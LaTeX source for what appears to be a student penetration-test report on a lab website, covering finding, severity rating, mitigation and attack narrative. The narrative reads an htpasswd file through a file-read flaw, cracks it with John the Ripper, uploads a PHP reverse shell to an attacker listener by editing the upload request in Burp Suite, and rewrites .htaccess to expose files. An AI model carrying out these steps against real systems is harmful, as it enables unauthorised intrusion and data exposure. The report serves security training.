%  Make this into a pdf document as follows:
%
%
% The edit the Report.tex file appropriately to include only those elements that
% make sense for the assignment you're reporting on.
%
% You can use a tool like TeXShop or Texmaker or some other graphical tool
% to convert Report.text into a pdf file.
%
% If you are making this with command line tools, you'd run the following command:
%
%     latex Report.tex
%
% That will generate a dvi (device independent) document file called Report.dvi
% The pages reported in the table of contents won't be correct, since latex only
% processes one pass over the document. To adjust the page numbers in the contents,
% run latex again:
%
%    latex Report.tex
%
% Then run
%
%   dvipdf Report.dvi
%
% to generate Report.pdf
%
% You can view this file to check it out by running
%
% xdg-open Report.pdf
%
% That's it.
  
\def\cvss(#1,#2,#3,#4,#5,#6,#7,#8,#9){
	\indent\textbf{CVSS Base Severity Rating: #9}  AV:#1 AC:#2 PR:#3 UI:#4 S:#5 C:#6 I:#7 A:#8}
  
\def\ttp(#1, #2, #3, #4, #5, #6){
   \indent\textbf{#1:} #2 \\
   \indent\indent\textbf{#3:} #4 \\
   \indent\indent\indent\textbf{#5:} #6 \\}

\documentclass[notitlepage]{article}

\usepackage{bibunits}
\usepackage{comment}
\usepackage{graphicx}
\usepackage{amsmath}
\usepackage{datetime}
\usepackage{numprint}

% processes above options
\usepackage{palatino}  %OR newcent ncntrsbk helvet times palatino
\usepackage{url}
\usepackage{footmisc}
\usepackage{endnotes}

\setcounter{secnumdepth}{3}
\begin{document}

\nplpadding{2}
\newdateformat{isodate}{
  \THEYEAR -\numprint{\THEMONTH}-\numprint{\THEDAY}}
  
\title{Penetration Test - Exercise 120}
\author{Esteban Calvo}
\date{\isodate\today}

\maketitle

\tableofcontents

\newpage

\section{Technical Report}


  \subsection{Finding: \emph{www-data shell access}}
  

	\subsubsection*{Severity Rating}
	    Risk Severity: Critical \\
		\cvss(A,L,N,N,C,H,H,H, 9.6)
		
  	\subsubsection*{Vulnerability Description}
        An attacker can navigate to Brian's site, get access to the administrative control panel, and through some effort, upload a shell to gain access
        to the Host Machine as user www-data. Once the attacker is in, they will have access to all files that www-data has access to and can modify
        Brian's site as well possibly find other information on the host machine that is not well hidden.

  	\subsubsection*{Confirmation method}
  	    First, get the credentials to the admin panel by navigating to 		
\begin{verbatim}
www.artstailor.com/brian/getimage.php?raw=true&file=htpasswd
\end{verbatim}
    and then running this through John The Ripper to get the following censored credentials
\begin{verbatim}
Brian: Sw...h
\end{verbatim}
    We can alter the reverse shell we want to upload to make sure it comes back to our own machine. For me, this was
\begin{verbatim}
$ip = '172.24.0.10'
$port = '6166'
\end{verbatim}
    Next, we want to move this file to a jpg file and then open up Burp Suite and upload this file as a test to see how the file is uploaded. We
    can then alter the POST packet to change the name to reverse.php as it seems to only check the Content-Type if we upload it directly on Burp Suite.
    Lastly, we open up netcat to the port we wrote earlier and navigate to the reverse.php as follows
\begin{verbatim}
nc -nlvp 6166
xdg-open www.artstailor.com/brian/imgfiles/reverse.php
\end{verbatim}
    On the terminal with netcat open, we can now see that we have a shell and running whoami reveals that we are in fact www-data. Running ip a further reveals that we are on
    172.70.184.133 which is the IP where the brian site was hosted on.

    \subsubsection*{Mitigation or Resolution Strategy}
    To mitigate a reverse shell attack, there are a few strategies that could have been employed. Firstly, a forward facing admin panel should try to be avoided, especially to do
    something like upload images which can be done on the system without having to expose this code to the user. If brian is the only admin to the account that can upload content, there
    is no point in leaving the script up on the site. Next, there should not have been a way for any user to get access to the htpasswd file. The server should have been configured to ensure
    there is no way to get access to this file through some sort of configuration. The hash should also have not been as easy to guess and should have been a harder password. Also, there
    should be better restrictions on the file types that are uploaded. For example, some sort of server-side validation should have been performed instead of a simple extension check. Using 
    something as simple as the file command would have made it a little harder to upload the file. 



\section{Attack Narrative}

    \subsection{Initial Findings}	
    To first get started, I navigated to the site www.artstailor.com/brian and explored around. To get a better understanding of the source code, we can run
\begin{verbatim}
wget www.artstailor.com/brian
\end{verbatim}
    Examining the code, we can see that all image files are loaded in from a folder called /imgfiles. We can also see at the bottom of the HTML there is an admin panel. Clicking
    on this takes us to a new page with a pop up asking for some sort of credentials, thus, we must dig around some more. Using the tool nikto also revealed there was a folder called private
    and at first, a file here with the key was visible without needing any more access, but this got patched later. Nothing else in this folder was too useful so we went back to the source code
    and explored some more. To get the credentials that were asked for earlier, we tried to see if it was possible to find the htpasswd somewhere. I first looked in imgfiles and brian doing
\begin{verbatim}
www.artstailor.com/brian/htpasswd
www.artstailor.com/brian/imgfiles/htpasswd
\end{verbatim}
    Looking in brian said there was no file found, but in imgfiles, it once again asked for a password which meant this is where the file was. Looking at how the other files from the imgfiles were
    called, I used a similar structure to get 
\begin{verbatim}
www.artstailor.com/brian/getimage.php?raw=true&file=htpasswd
\end{verbatim}
    This then revealed the following censored hash
   \begin{verbatim}
brian:$apr...Y4.
   \end{verbatim}
   \subsection{Admin Panel Access and File Upload}
    Using john the ripper as follows revealed the correct password
\begin{verbatim}
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
john --wordlist=/usr/share/wordlists/rockyou.txt
\end{verbatim}
    which revealed the following credentials
\begin{verbatim}
Username: brian
Password: Sw...h
\end{verbatim}
    Once on the admin panel, there is a screen that tell us we can upload files but they Must be jpg or png. After some trial and error, I realized that it didn't care what the file type 
    was and is only checking the extension. So, I got the reverse shell and amended it to read
\begin{verbatim}
$ip = '172.24.0.10'
$port = '6166'
\end{verbatim}
    then exited and did 
\begin{verbatim}
mv php-reverse-shell.php reverse.php.jpg
nc -nlvp 6166
\end{verbatim}
    as we made sure that the reverse shell tries to come back to our ip on port 6166. Going back to admin panel and uploading this file, we can then try and navigate to the file.
    Going to /brian/imgfiles/reverse.php.jpg reveals and issue though. The host machine tries to serve up the file as a jpg file and does not start up the code the way we expect it to. So, we
    must find another way to try and fool it.
    \subsection{Burp Suite}
    Burp suite allows to directly change the way we send our post requests to the host. If we once again upload the file on burp suite, we have more control to examine the contents of the post
    request and use the repeated to send our own custom post. Picture below is the original post \\

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex120/initial_post} \\
    We can see that it does trick the system to sending it as a image/jpeg and the extension here is .jpg. However, the host seems to only verify that the content type is image/jpeg if 
    we send the file this way and does not in fact check for the extension or run the file command on the file that we upload. So, all we need to do is to modify the name and post the new request
    as follows \\

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex120/altered_post} \\
    We can now navigate to reverse.php with our netcat open. After this, we have access to the site again and can see the key we had found earlier \\

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex120/proof_and_key} \\

    \subsection{File Exfiltration}
    Running the command 
\begin{verbatim}
grep www-data /usr/passwd
\end{verbatim}
    Reveals that as www-data, we do not have access to an interactive shell as stated by the flag that says
\begin{verbatim}
/usr/sbin/nologin
\end{verbatim}
    This means we have very limited amount of control over the system apart from the website data we have access to. Running the following commands on the reverse shell
   \begin{verbatim}
cd /var/www/html
ls -l
   \end{verbatim}
   reveals we only have access to the index.html file and Brian's site. So, we are limited to only the information on these two sites plus any additional sites we wish to make.  We
   can also make it to where all users can get the files on the browser by going to /imgfiles and doing the following
\begin{verbatim}
sed -i 's/Require user brian/Allow from all/g' .htaccess
echo 'Options +Indexes\nDirectoryIndex disabled' >> .htaccess
\end{verbatim}
    And now any user that wants to can see any sensitive information on the site and download any files they want. The below picture is using private browser without having
    logged in as Brian \\

\includegraphics[width=4in]{~/Desktop/school/fall2023/pen/ex/ex120/directoryAccess} \\


    \subsection{MITRE ATT{\&}CK Framework TTPs}    
	
    \subsubsection*{}
	\ttp(TA0006, Credential Access, T1110, Credential Access, .002, Password Cracking)
    
    \subsubsection*{}
	\ttp(TA003, Persistence, T1505, Server Software Component, .003, Web Shell) 
\end{document} 
